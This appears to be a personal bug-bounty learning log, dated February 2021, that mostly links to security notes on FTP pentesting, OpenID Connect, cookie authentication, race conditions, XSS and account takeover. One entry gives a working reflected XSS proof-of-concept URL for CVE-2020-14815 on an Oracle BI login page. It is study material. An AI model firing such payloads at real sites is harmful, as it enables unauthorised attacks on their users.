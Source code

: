 # 📅 08-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 38
- [Pentesting FTP Service](https://github.com/harsh-bothra/learn365/blob/main/days/day38.md)

# 📅 09-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 39
- [OpenID Connect Implementation Issues](https://github.com/harsh-bothra/learn365/blob/main/days/day39.md)

## CVE-2020-14815 
```text
https://target[.]com/bi-security-login/login.jsp?msi=false&redirect="><img/src/onerror%3dalert(document.domain)>
```
![img](https://pbs.twimg.com/media/Emox1wcXIAAabpt?format=png&name=900x900)

**Source: https://twitter.com/HackerOn2Wheels/status/1326927875279380480?s=20**

# 📅 10-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 40
- [Cookie Based Authentication Vulnerabilities](https://github.com/harsh-bothra/learn365/blob/main/days/day40.md)

# 📅 11-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 41
- [Cobalt Vulnerability Wiki](https://cobalt.io/vulnerability-wiki/)

## XSS on Public program
- [Reflected XSS on Public Program](https://thevillagehacker.medium.com/reflected-xss-on-a-public-program-e8c0416daca1)

## Account TakeOver on online store
- [Account Take Over](https://thevillagehacker.medium.com/account-take-over-due-to-no-rate-limitation-433bd7449aca)

# 📅 12-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 42
- [Race Condition](https://github.com/harsh-bothra/learn365/blob/main/days/day42.md)
